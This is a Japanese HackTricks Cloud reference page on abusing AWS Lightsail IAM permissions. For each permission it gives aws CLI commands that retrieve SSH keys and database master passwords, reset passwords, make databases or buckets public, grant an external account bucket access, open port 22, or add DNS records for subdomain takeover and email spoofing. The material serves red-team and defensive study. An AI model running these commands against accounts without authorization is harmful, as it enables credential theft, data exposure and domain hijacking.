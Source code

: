# AWS - Lightsail 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学びましょう</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい**、または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## Lightsail

Lightsailに関する詳細情報は、以下をチェックしてください:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
重要な点として、Lightsailは**ユーザーに属するIAMロールを使用しない**ことに注意する必要がありますが、AWSが管理するアカウントに属するため、このサービスを使用して特権昇格を行うことはできません。ただし、コード、APIキー、およびデータベース情報などの**機密データ**がこのサービスに見つかる可能性があります。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

この権限を持つと、インスタンスにアクセスするためのSSHキーを取得できます。
```
aws lightsail download-default-key-pair
```
**潜在的影響:** インスタンス内の機密情報を見つけることができます。

### `lightsail:GetInstanceAccessDetails`

この権限を持つと、インスタンスにアクセスするためのSSHキーを生成できます。
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的影響:** インスタンス内の機密情報を見つけることができます。

### `lightsail:CreateBucketAccessKey`

この権限を持つと、バケットにアクセスするためのキーを取得できます。
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的影響:** バケット内の機密情報を見つけることができます。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限を持つと、データベースへのアクセス資格情報を取得できます。
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的影響:** データベース内の機密情報を見つけることができます。

### `lightsail:UpdateRelationalDatabase`

この権限を使用すると、データベースへのアクセスパスワードを変更できます：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

データベースが公開されていない場合は、この権限で公開することもできます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在的影響:** データベース内で機密情報を見つける可能性があります。

### `lightsail:OpenInstancePublicPorts`

この権限はインターネットにポートを公開することを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的影響:** 機密ポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限は、インターネットにポートを公開することを許可します。指定されていないポートは閉じられます。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的影響:** 機密ポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限を使用すると、追加の資格情報なしでインスタンスにバケットへのアクセスを許可できます。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在的影響:** 機密情報を含むバケットへの新しいアクセス権の可能性。

### `lightsail:UpdateBucket`

この権限を持つと、攻撃者は自分のAWSアカウントに対してバケットへの読み取りアクセス権を付与したり、バケットを誰でもアクセス可能にすることができます。
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的影響:** 機密情報を含むバケツへの新しいアクセスが可能になる可能性があります。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセスを許可できます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的影響:** プライベートECRから機密情報を取得する

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、それを自分のIPアドレスにポイントする（サブドメイン乗っ取り）、またはドメインからの電子メールのスプーフィングを許可するSPFレコードを作成したり、メインドメインを自分のIPアドレスに設定することさえできます。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、それを自分のIPアドレスに向ける（サブドメイン乗っ取り）、または自分のIPアドレスからの電子メールを許可するSPFレコードを作成したり、さらにはメインドメインを自分のIPアドレスに設定することができます。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響:** ドメインの乗っ取り

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする**
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
